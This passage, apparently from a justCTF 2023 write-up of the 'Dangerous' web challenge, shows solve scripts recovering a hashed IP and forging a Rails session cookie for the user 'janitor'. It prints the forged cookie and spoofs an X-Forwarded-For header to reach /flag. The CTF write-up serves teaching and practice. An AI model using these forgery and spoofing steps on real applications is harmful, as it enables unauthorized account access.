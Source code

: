 Modifying the `sqlite.db` file to store the correct IP value and rerunning the Docker setup, we get new hash values:

![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.011.png)

![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.012.png)

These are the same hash values shown during the competition.

Rerunning the script with these hash values, we get the correct IP:

```bash
$ python3 solve.py
10.24.170.69
```

Rebuilding the docker container generates a new session secret. So after modifying the cookie forging script to use this secret, we can run the script once again to get our forged cookie.

```bash
$ ruby solve.rb
{"session_id"=>
  "fd4b8a1675e08a64faade074b94fd801a6a08cd3d243f71f02f2436492d8c4f3",
 "csrf"=>"wLZQJop4YbllHXrc2DjjJGH1ccPBi5BAAzBAC8NBB4Q=",
 "tracking"=>
  {"HTTP_USER_AGENT"=>
    "mozilla/5.0 (windows nt 10.0; win64; x64) applewebkit/537.36 (khtml, like gecko) chrome/114.0.5735.134 safari/537.36"},
 "username"=>"janitor"}

BzTT0oQBBXE6CuMOXI9s6LBrkGFr7rjG8UCuAE5ABOizIrjYr31A9elerGpXi5JRkNwVd9wZrcQxZPV2vtvmYrxif2xg%2FkiNCRDsNpjjiCevNwGm0hwmnh7hSkV0aD%2FWvCFehu1O%2BPYn%2FEEFhpbAwP1P5JjuogKnJnICO7lhpsMIxhX5ASceSvWJ7u1Paz4LvnSyJrTO%2BeK7a5dGNnpSK9i9pJpVaD4JjLWYWsCxQS8NbSQJiWGa73gkK2xHR4tOCTqa8es4vi2ryFnnnZC%2FbAsUQvxoygMyLPT7xZst%2B0%2BoKwBm8wAmjCO3BoQvq7XG%2BKqzTtryUrO3Trxu7Dl4yJOvXVl7vjBo9D5lbHWoD5sYDWM8XpQLbiKYfAnAHi%2BPlRMQ1Hp%2BzzSuWEj0ztKxgWtXw0BV1gn4LHr0%2Fdkteen72%2Ft637H6eRonPxoa0A9THAJGB4k%3D--AD2tt67hU44aGI7n--s%2Bqymfz%2FOP%2Flb0nSjIW2vg%3D%3D
```

Supplying this cookie and `X-Forwared-For: 10.24.170.69` to the endpoint `/flag`, we get the flag:

![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.013.png)

### Flag: justCTF{1_th1nk_4l1ce_R4bb1t_m1ght_4_4_d0g}